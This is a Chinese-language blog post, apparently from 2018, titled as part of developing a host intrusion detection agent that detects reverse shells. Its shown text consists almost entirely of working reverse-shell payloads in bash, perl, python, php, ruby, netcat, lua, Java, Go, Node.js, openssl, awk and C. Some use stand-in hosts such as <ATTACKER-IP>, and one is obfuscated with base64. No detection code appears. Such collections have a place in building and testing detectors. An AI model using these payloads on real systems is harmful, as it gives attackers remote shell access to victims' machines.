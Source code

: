 Title: HIDS-Agent开发之检测反弹shell
Date: 2018-08-16 20:20
Modified: 2018-08-16 20:20
Category: 安全
Tags: HIDS
Slug: S2
Authors: nJcx
Summary: HIDS-Agent开发之检测反弹shell ~


#### 介绍


```bash
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1  #TCP

Listener:
nc -nvlp 1234

```

![agent](../images/WechatIMG53.jpeg)


```bash

sh -i >& /dev/udp/127.0.0.1/1234 0>&1 #UDP

Listener:
nc -u -lvp 1234

```

![agent](../images/WechatIMG54.jpeg)

```bash
0<&196;exec 196<>/dev/tcp/127.0.0.1/1234; sh <&196 >&196 2>&196

```
![agent](../images/WeChat9c018fc36b0256b4286d528e3e91651a.png)

```bash
exec 5<>/dev/tcp/127.0.0.1/1234; while read line 0<&5; do $line 2>&5 >&5; done

```

![agent](../images/WechatIMG56.jpeg)

```bash
nohup bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'

base64搞一下命令

echo "nohup bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'" | base64 -w0
echo bm9odXAgYmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYxJwo= | base64 -d | bash 2>/dev/null

```

![agent](../images/WechatIMG55.jpeg)






```bash
telnet 127.0.0.1 1234 | /bin/sh #Blind

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 127.0.0.1 1234 >/tmp/f

rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | telnet 127.0.0.1 1234 1>/tmp/bkpipe
```
![agent](../images/WechatIMG59.jpeg)
![agent](../images/WechatIMG60.jpeg)


```bash
telnet 127.0.0.1 1234 | /bin/bash | telnet 127.0.0.1 12345
```

![agent](../images/WechatIMG61.jpeg)


```perl
perl -e 'use Socket;$i="127.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[127.0.0.1]:[1234]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

```

![agent](../images/WechatIMG54.jpeg)


```python


export RHOST="127.0.0.1";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
![agent](../images/WechatIMG54.jpeg)


```php

php -r '$sock=fsockopen("127.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'


```


![agent](../images/WechatIMG54.jpeg)



```php
php -r 'exec("/bin/bash -i >& /dev/tcp/127.0.0.1/1234")'

```

![agent](../images/WechatIMG53.jpeg)


```ruby

ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

```

![agent](../images/WechatIMG54.jpeg)



```bash

nc -e /bin/sh 127.0.0.1 1234

如果nc 不支持 -e

nc  127.0.0.1 1234 | /bin/sh #Blind
nc <ATTACKER-IP> <PORT1>| /bin/bash | nc <ATTACKER-IP> <PORT2>
rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | nc  127.0.0.1 1234 1>/tmp/bkpipe

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc  127.0.0.1 1234 >/tmp/f

```
![agent](../images/WechatIMG62.jpeg)
![agent](../images/WechatIMG63.jpeg)



```lua

lua -e "require('socket');require('os');t=socket.tcp();t:connect('127.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"

```

![agent](../images/WechatIMG54.jpeg)


Java

```java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

```

Golang

```golang

echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.0.134:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

```


Nodejs

```javascript


(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "10.17.26.64", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();


or

require('child_process').exec('nc -e /bin/sh [IPADDR] [PORT]')

or

-var x = global.process.mainModule.require
-x('child_process').exec('nc [IPADDR] [PORT] -e /bin/bash')


```

用openssl 反弹shell


攻击者

```bash

openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response

```

靶机

```bash
#Linux
openssl s_client -quiet -connect <ATTACKER_IP>:<PORT1>|/bin/bash|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>

#Windows
openssl.exe s_client -quiet -connect <ATTACKER_IP>:<PORT1>|cmd.exe|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>

```




```bash

awk 'BEGIN {s = "/inet/tcp/0/<IP>/<PORT>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

```



```c

#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 4242;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.0.0.1");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}

```





Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash





